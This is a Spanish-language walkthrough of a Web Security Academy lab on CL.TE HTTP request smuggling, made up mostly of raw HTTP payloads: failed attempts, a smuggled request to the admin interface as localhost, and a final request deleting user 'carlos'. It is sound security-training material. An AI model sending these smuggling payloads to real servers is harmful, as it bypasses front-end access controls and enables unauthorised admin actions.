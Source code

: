 ```yaml
---
layout: default
title: 06 - Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
---
```


Así nos tira 401 Unauthorized - Admin interface only available to local users :
```HTTP
POST / HTTP/1.1\r\n
Host: 0a97002803ea466780098fc60048004f.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 29\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-Ignore: X
```

Así nos tira 400 Duplicate header names are not allowed (porque en la segunda petición habría dos Host Headers) :

```HTTP
POST / HTTP/1.1\r\n
Host: 0a2800630360d96281b525e60080002c.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 54\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: localhost\r\n
X-Ignore: X
```

El payload que funcionará es el siguiente, porque así la petición normal que se concatene con esta, formará parte del body :

(El content-length tiene que ser length(x=) +1 && >6 , osea que en este caso tiene que ser 6)

```HTTP
POST /admin HTTP/1.1\r\n
Host: localhost\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
\r\n
x=
```

Quedará así la segunda petición solicitada

```HTTP
POST /admin HTTP/1.1\r\n
Host: localhost\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
\r\n
x=POST / HTTP/1.1\r\n
Host: 0a2800630360d96281b525e60080002c.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 116\r\n
Transfer-Encoding: chunked\r\n
```

El lab se resolvería con :

```HTTP
POST / HTTP/1.1
Host: 0a2800630360d96281b525e60080002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=
```
